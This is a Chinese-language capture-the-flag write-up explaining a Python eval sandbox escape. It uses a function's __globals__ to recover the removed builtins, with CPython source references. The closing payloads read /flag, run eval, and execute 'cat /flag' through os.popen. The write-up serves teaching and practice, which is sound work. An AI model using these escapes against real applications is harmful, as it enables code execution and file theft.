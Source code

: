 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import SVGGithub from '@docs/assets/icons/mdi--github.svg?component'
</script>

# 臭皮踩踩背

题目需要用 nc 连接，给出了部分源码：

```python
def ev4l(*args):
    print(secret)
inp = input("> ")
f = lambda: None
print(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))
```

完整源码：

```python
print('你被豌豆关在一个监狱里……')
print('豌豆百密一疏，不小心遗漏了一些东西…')
print('''def ev4l(*args):\n\tprint(secret)\ninp = input("> ")\nf = lambda: None\nprint(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))''')
print('能不能逃出去给豌豆踩踩背就看你自己了，臭皮…')

def ev4l(*args):
    print(secret)

secret = '你已经拿到了钥匙，但是打开错了门，好好想想，还有什么东西是你没有理解透的？'

inp = input("> ")

f = lambda: None

if "f.__globals__['__builtins__'].eval" in inp:
    f.__globals__['__builtins__'].eval = ev4l
else:
    f.__globals__['__builtins__'].eval = eval

try:
    print(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))
except Exception as e:
    print(f"Error: {e}")
```

再此之前，我们来学习一下[参考文档](/guide/2024/week3.html#臭皮踩踩背)中的内建函数 `__builtins__`，还有 `globals` 到底是什么，再了解的 `eval()` 的原理，逃离这个上下文。

::: warning 注意
下面的代码块中，除特别说明外，若代码块中存在 `>>>` 开头，则表示该代码块是在自己的 Python 环境中作为测试执行的<span data-desc>（直接命令行运行 `python`）</span>，否则，则是 nc 后发送给题目的内容。
:::

## globals 和 builtins

`globals` 是我们当前的全局空间，如果你声明一个全局变量，它将会存在于当前的 `globals` 中，我们可以看一下 `globals` 中到底有哪些内容，直接新建一个 Python 会话：

```python
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>}
>>> x=1
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'x': 1}
```

但是为什么我们能够直接调用 `open()` 函数呢？因为 。但是如果访问了 `open` 函数，如果 `globals` 中有，那就执行 `globals` 中的<span data-desc>（可能是你自己定义的，因此存在于 `globals` 空间中）</span>，否则，执行 `builtins` 中的<span data-desc>（类似 `open` `eval` `__import__` 之类的函数都是在 `builtins` 中的）</span>。

我们来查看一下 `builtins` 中到底有哪些内容：

```python
>>> globals()['__builtins__'].__dict__.keys()
dict_keys(['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__build_class__', '__import__', 'abs', 'all', 'any', 'ascii', 'bin', 'breakpoint', 'callable', 'chr', 'compile', 'delattr', 'dir', 'divmod', 'eval', 'exec', 'format', 'getattr', 'globals', 'hasattr', 'hash', 'hex', 'id', 'input', 'isinstance', 'issubclass', 'iter', 'aiter', 'len', 'locals', 'max', 'min', 'next', 'anext', 'oct', 'ord', 'pow', 'print', 'repr', 'round', 'setattr', 'sorted', 'sum', 'vars', 'None', 'Ellipsis', 'NotImplemented', 'False', 'True', 'bool', 'memoryview', 'bytearray', 'bytes', 'classmethod', 'complex', 'dict', 'enumerate', 'filter', 'float', 'frozenset', 'property', 'int', 'list', 'map', 'object', 'range', 'reversed', 'set', 'slice', 'staticmethod', 'str', 'super', 'tuple', 'type', 'zip', '__debug__', 'BaseException', 'Exception', 'TypeError', 'StopAsyncIteration', 'StopIteration', 'GeneratorExit', 'SystemExit', 'KeyboardInterrupt', 'ImportError', 'ModuleNotFoundError', 'OSError', 'EnvironmentError', 'IOError', 'WindowsError', 'EOFError', 'RuntimeError', 'RecursionError', 'NotImplementedError', 'NameError', 'UnboundLocalError', 'AttributeError', 'SyntaxError', 'IndentationError', 'TabError', 'LookupError', 'IndexError', 'KeyError', 'ValueError', 'UnicodeError', 'UnicodeEncodeError', 'UnicodeDecodeError', 'UnicodeTranslateError', 'AssertionError', 'ArithmeticError', 'FloatingPointError', 'OverflowError', 'ZeroDivisionError', 'SystemError', 'ReferenceError', 'MemoryError', 'BufferError', 'Warning', 'UserWarning', 'EncodingWarning', 'DeprecationWarning', 'PendingDeprecationWarning', 'SyntaxWarning', 'RuntimeWarning', 'FutureWarning', 'ImportWarning', 'UnicodeWarning', 'BytesWarning', 'ResourceWarning', 'ConnectionError', 'BlockingIOError', 'BrokenPipeError', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionRefusedError', 'ConnectionResetError', 'FileExistsError', 'FileNotFoundError', 'IsADirectoryError', 'NotADirectoryError', 'InterruptedError', 'PermissionError', 'ProcessLookupError', 'TimeoutError', 'open', 'quit', 'exit', 'copyright', 'credits', 'license', 'help', '_'])
```

可以看到 `open` `eval` `__import__` 等函数都在 `builtins` 中。

## eval

`eval` 函数的第一个参数就是一个字符串，即你要执行的 Python 代码，第二个参数就是一个字典，指定在接下来要执行的代码的上下文中，`globals` 是怎样的。

题目中，`eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l})` 这段代码，`__builtins__` 被设置为 `None`，而我们输入的代码就是在这个 `builtins` 为 `None` 的上下文中执行的，我们从而失去了直接使用 `builtins` 中的函数的能力，像下面的代码就会报错<span data-desc>（题目中直接输入 `print(1)`）</span>：

```python
>>> eval('print(1)', {"__builtins__": None})
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
```

由于全局 `global` 中没有 `print`，从而从 `builtins` 中寻找，而 `builtins` 为 `None`，触发错误。

但注意看，题目刚好给了一个匿名函数 `f`，看似无用，实际上参考文档已经给出提示——**Python 中「一切皆对象」**。故可以利用函数对象的 `__globals__` 属性来逃逸。我们可以在 Python 终端测试一下：

```python
>>> f = lambda: None
>>> f.__globals__
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'f': <function <lambda> at 0x0000026073850700>}
```

函数的 `__globals__` 记录的是这个函数所在的 `globals` 空间，而这个 `f` 函数是在题目源码的环境中（而不是题目的 eval 的沙箱中），我们从而获取到了原始的 `globals` 环境，然后我们便可以从这个原始 `globals` 中获取到原始 `builtins`：

```python
f.__globals__['__builtins__']
```

## 深入探究 eval 的 builtin 逻辑

但这里还有一个问题，如果我们直接调用 `f.__globals__['__builtins__'].eval`，先不说题目会替换掉 `eval` 函数<span data-desc>（实际上在点号前随便几个空格或者字符串拼接就能绕过，下不赘述）</span>，即使我们能够调用，也会报错：

```python
>>> f = lambda: None
>>> inp='''f.__globals__['__builtins__'].eval('print(1)')'''
>>> eval(inp, {"__builtins__": None, 'f': f})
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
```

为什么呢？可以看 Python 解释器的 `builtins` 相关的代码：[<SVGGithub width='1.2em' height='1.2em' style='display: inline-block; vertical-align: sub;' /> bltinmodule.c](https://github.com/python/cpython/blob/079875e39589eb0628b5883f7ffa387e7476ec06/Python/bltinmodule.c#L996-L1002).

![bltinmodule.c](/assets/images/wp/2024/week3/caicaibei_1.png)

可见，会检查 `globals` 中是否已经包含了 `builtins`，如果没有，则会通过 `PyEval_GetBuiltins()` 获取默认的内置函数，并将其添加到 `globals` 中。

又因为[官方文档中对 `eval` 函数的描述](https://docs.python.org/3.10/library/functions.html#eval)：

![官方文档](/assets/images/wp/2024/week3/caicaibei_2.png)

因此，报错的原因便是，我们在 `inp` 中的 `eval` 并没有指定 `globals`，因此 Python 会将**当前调用处的上下文的 `globals`** 作为第二个参数，即使设定了第二个参数但没有指定 `__builtins__`，Python 也会自动注入**当前上下文**中的 `builtins`（也就是未指定则继承）。但当前上下文中的 `builtins` 是 `None`，因此会报错。

绕过也很简单，显式指定即可：

```python
>>> inp='''f.__globals__['__builtins__'].eval('print(1)', { "__builtins__": f.__globals__['__builtins__'] })''' # [!code highlight]
>>> eval(inp, {"__builtins__": None, 'f': f})
```

可以看下面的结构树：

```python
# In source code
globals()               <- f.__globals__
  ├─ __builtins__       <- f.__globals__['__builtins__']
  │  ├─ open            <- f.__globals__['__builtins__'].open
  │  ├─ eval            <- f.__globals__['__builtins__'].eval
  │  └─ ...
  ├─ f                  <- f.__globals__['f']
  └─ ...
    # In `eval(inp, {"__builtins__": None, "f": f})`
    globals()
      ├─ __builtins__   <- None
      ├─ f
      └─ ...
      # Though `f` was from top globals, and you can reach top builtins by `f.__globals__['__builtins__']`
      # the context is still at this level when you run `eval()` AKA `f.__globals__['__builtins__'].eval()`
      # so Python will inject the current builtins, which is `None`, into the `eval` context
```

## Payload

综上，Payload 其实有很多种，这里列举一些：

::: code-group

```python [读文件]
f.__globals__['__builtins__'].open('/flag').read()
```

```python [代码执行]
f.__globals__['__builtins__'] .eval('open("/flag").read()', { "__builtins__": f.__globals__['__builtins__'] })
```

```python [命令执行]
f.__globals__['__builtins__'].__import__('os').popen('cat /flag').read()
```

:::
